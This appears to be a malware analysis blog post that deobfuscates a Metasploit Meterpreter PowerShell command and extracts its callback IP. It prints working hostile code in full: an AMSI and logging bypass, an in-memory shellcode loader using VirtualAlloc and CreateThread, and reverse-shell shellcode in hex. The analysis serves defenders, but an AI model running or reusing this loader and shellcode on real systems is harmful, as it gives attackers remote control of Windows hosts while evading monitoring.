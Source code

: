 ## Meterpreter Shellcode Obfuscated in PowerShell
Taking apart a Meterpreter Payload encoded within an obfuscated PowerShell script.

Below is an example of a command line which is often associated with exploitation attempts via Metasploit

```powershell
C:\\Windows\\SysWOW64\\cmd.exe /c powershell.exe -nop -w hidden -noni -c <!#-- if([IntPtr]::Size -eq 4){$b=$env:windir+'\\sysnative\\WindowsPowerShell\\v1.0\\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c
$x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new();
$gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u''));
$plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a''));
if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null);
If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows\\PowerShell\\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}
{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,
[System.Convert]::FromBase64String(((''''H4sIA{1}wxYWUA/7VWbW/aShP9X''+''qn/waqQsHUJmJf2kkiVnjX{1}QIOJiQMkUFRt7MVsWXuJvQ5Bvf3vnfV{0}QtSkzXOvasnCXs/M''+''zp45c4ZV{1}rqC8lCh723l29s3Sn7ZOMKBopbcGW/fV5QS3WqPH0t+m42Uj4q6QNttlweYhsuTk04SRSQU2Xu1RwSKYx{0}cM{1}piVVP+UWZr{1}pGj85uvxBXKN6X0pdpj/Aaz3Gzfwe6aK{1}co9OS3IXexTKzqbBkVavnz57K2OKovq6e3CWaxWnb2sSBB1WOsrCnfNbnh5X5{0}1{0}JF3YjHfCWqMxo2G9VJGOMVGUG0O2IRseZeXIbDPB4nIiKJwuxUMkxmpJbh0Y64izwvInFcrig{0}ucFiufyfush3v0hCQ''+''QNSHYSCRHzrkOiOuiSu9nHoMXJBVkvwckR{1}Q3+paWB2xzd{1}{0}YUJYxXl/wmjjsiuwO61Tuqh{1}1jZItIqUNNnzmlx{0}2{1}k8yw/k2jGAw2ujAuA33cJ4QN9Alz/0n2GQI8{0}xbVIvxDIWbV5TFPvj4peUSzYHQse7eG1dBklRFs+IK6UghY6q7w2Wr1wBce7XgIriymn3v{0}R/wkBSqvb3vS9tHqZz12yoiHp7kMcU{0}eg7BO{1}i7KQFYNXSd3''+''CbAQZquX8A/G6hB{1}fCwm0ZMdPbqcBFQ++RkKZRy{0}kQmljyAqqrj1NJqudWh6{1}FgkAvuwd6FpaQaOQwjpvjn2xu3wHo3KH4TiuKHYCnepWFIdgRryKgsKY5p9QInj6KFsgT9dKmKAujkURbnmoDyme+b4dHsYiSlyo{0}GBw6WyJSzGTkFSUPvWIsXeoX+x/sMMBIB3MGHQQR{0}qDgsCKBMIRki8RpJpyQ6s6RAyC{0}SMB2KTSYT{0}sg1DkfZISDPv{1}k83/bKZFP2Tkl9gUoBzkCQV3GBcVZUojA''+''UokcQaK/assfpag{0}J1ORPICqUWj{0}Yy9kI1QCofjxkZSNYcpBSUSAIgZ8cDAMfnQygRHfVc7pzaC67rbdyiZbmh9sIPbgntCmwNurdq20HlguZ3Y7pltRHf+zm2PkOt98sixA3bjaUt0bNQfU91orV1Dv0yf/Wta933kjcZrl+n26ea+1op1uuvPZKwshttq9a''+''901Gy2zpv6BgCUPhvwCejufgjPoKznQ2MQG/qAnX7qXNzMGuZ8xvq1lrlezXjsf{0}ju1mq1Yw93rT1CBvea1v6qfs{1}v+25gt{1}JeO+60NugUoU54OjUNfnZtRMiuTbG/5bszH6GZ30HorzUl8/H{1}NMZj00CT3tfb7nHNrx3PrvDam{1}0bd{0}69uljDu7nrj62a3hp45J63hzM6vZOxjFvDnF9hNJzvzVqtfh038MbgyABgzfkt6q2vt6bNwP9y0uBoykaPtuN+9''+''8yd1/+OrY/voJK{0}CQ1Fs7GUjdmUovf2TYm5x+2Dcr4k6haO4jVm''+''UGZQ66{0}nTB6ZuQDbH{1}KDCKpyjm9IFBIGow+GY8FTxBh3pfxnSg2zJ5sIckBN4BHSeu5JgyGfG4{0}4F3OhWDo5mUOWwP2UldUhCX2xruj3TV0HQdfv9VbK8tcfrsO3e5g6Mhr4Q2AJz0N8lsaHkHSlq{0}8dnv''+''8ZMhj+AhToF6C9hB/svQHBAAn{0}mliiaHDODjHMj/bAiScQAnZ1OP5Cjv6U{0}RDiiNwqJVBSoh3O2VJyc37zRwmUq9{1}afrzf{1}uhx7RdfX0UqvZIh9NPy04UDMf9z{1}MwwFWDogKoyko37F5DIu+agz{0}I+0BKr''+''/J{0}/hM8TcTSCf1aptv8AyS{1}BNoI{0}AAA='')-f''L'',''E'')))),
[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]
```

Obfuscation is used in the form of concatenating the base64 encoded string, and gzip compression.
We can identify the value of the arrays after a given sequence by looking for the '-f' argument.

"-f''L'',''E''"

{0} = L

{1} = E

Then it's a case of getting the Base64 encoded string, removing the concatenations and replacing the array values.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4de9e6db-b1b9-4609-932a-de568c74f327)

Next, we'll add a From Base64 and Gunzip operator to reveal the following code:

```powershell
function i5P {
        Param ($cWo8x, $ip)
        $g8lN = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $g8lN.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($g8lN.GetMethod('GetModuleHandle')).Invoke($null, @($cWo8x)))), $ip))
}

function ma1_D {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $m4AK,
                [Parameter(Position = 1)] [Type] $vGu = [Void]
        )

        $fqGV5 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $fqGV5.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $m4AK).SetImplementationFlags('Runtime, Managed')
        $fqGV5.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $vGu, $m4AK).SetImplementationFlags('Runtime, Managed')

        return $fqGV5.CreateType()
}

[Byte[]]$nLQ2k = [System.Convert]::FromBase64String("/OiPAAAAYDHSieVki1Iwi1IMi1IUi3IoMf8Pt0omMcCsPGF8Aiwgwc8NAcdJde9Si1IQV4tCPAHQi0B4hcB0TAHQi0gYi1ggAdNQhcl0PEkx/4s0iwHWMcCswc8NAcc44HX0A334O30kdeBYi1gkAdNmiwxLi1gcAdOLBIsB0IlEJCRbW2FZWlH/4FhfWosS6YD///9daDMyAABod3MyX1RoTHcmB4no/9C4kAEAACnEVFBoKYBrAP/VagpowKgAAWgCAA+hieZQUFBQQFBAUGjqD9/g/9WXahBWV2iZpXRh/9WFwHQM/04Idexo8LWiVv/VagBqBFZXaALZyF//1Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1QHDKcZ17sM=")
[Uint32]$fal3 = 0
$lc98 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualAlloc), (ma1_D @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $nLQ2k.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($nLQ2k, 0, $lc98, $nLQ2k.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll VirtualProtect), (ma1_D @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($lc98, [Uint32]$nLQ2k.Length, 0x10, [Ref]$fal3)) -eq $true) {
        $ubOb = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll CreateThread), (ma1_D @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lc98,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((i5P kernel32.dll WaitForSingleObject), (ma1_D @([IntPtr], [Int32]))).Invoke($ubOb,0xffffffff) | Out-Null
}
```

This articale from SANS probably does a better job of explaining the grittier details of this script: https://isc.sans.edu/diary/Fileless+Malicious+PowerShell+Sample/23081

But what we are interested in is the Base64 string.
We'll throw it into CyberChef and add a From Base64 and To Hex operator to reveal the shellcode

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/1b56305a-7734-4042-bd4a-08c589135d82)

```
fc e8 8f 00 00 00 60 31 d2 89 e5 64 8b 52 30 8b 52 0c 8b 52 14 8b 72 28 31 ff 0f b7 4a 26 31 c0 ac 3c 61 7c 02 2c 20 c1 cf 0d 01 c7 49 75 ef 52 8b 52 10 57 8b 42 3c 01 d0 8b 40 78 85 c0 74 4c 01 d0 8b 48 18 8b 58 20 01 d3 50 85 c9 74 3c 49 31 ff 8b 34 8b 01 d6 31 c0 ac c1 cf 0d 01 c7 38 e0 75 f4 03 7d f8 3b 7d 24 75 e0 58 8b 58 24 01 d3 66 8b 0c 4b 8b 58 1c 01 d3 8b 04 8b 01 d0 89 44 24 24 5b 5b 61 59 5a 51 ff e0 58 5f 5a 8b 12 e9 80 ff ff ff 5d 68 33 32 00 00 68 77 73 32 5f 54 68 4c 77 26 07 89 e8 ff d0 b8 90 01 00 00 29 c4 54 50 68 29 80 6b 00 ff d5 6a 0a 68 c0 a8 00 01 68 02 00 0f a1 89 e6 50 50 50 50 40 50 40 50 68 ea 0f df e0 ff d5 97 6a 10 56 57 68 99 a5 74 61 ff d5 85 c0 74 0c ff 4e 08 75 ec 68 f0 b5 a2 56 ff d5 6a 00 6a 04 56 57 68 02 d9 c8 5f ff d5 8b 36 6a 40 68 00 10 00 00 56 6a 00 68 58 a4 53 e5 ff d5 93 53 6a 00 56 53 57 68 02 d9 c8 5f ff d5 01 c3 29 c6 75 ee c3
```

Then with this shellcode, we can use a x86 Dissassembler to reveal the instructions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5615afaf-2a27-41af-8b79-f83bdcb3eb31)

To find the IP which the shell will call back to, we need to look for the PUSH instructions above the MOV ESI,ESP instruction, which is above multiple PUSH RAX insutrctions

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5a5efcb0-f9c4-4bde-a647-ccdc421dc1b4)

By taking the Hex contents of the first PUSH instruction, after 68 (Which is just the instruction to PUSH), we get C0A80001, converting this From Hex, To Decimal, we get our source IP: 192.168.0.1

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b72c9cec-eb6f-40bf-9f31-56d0b864d465)












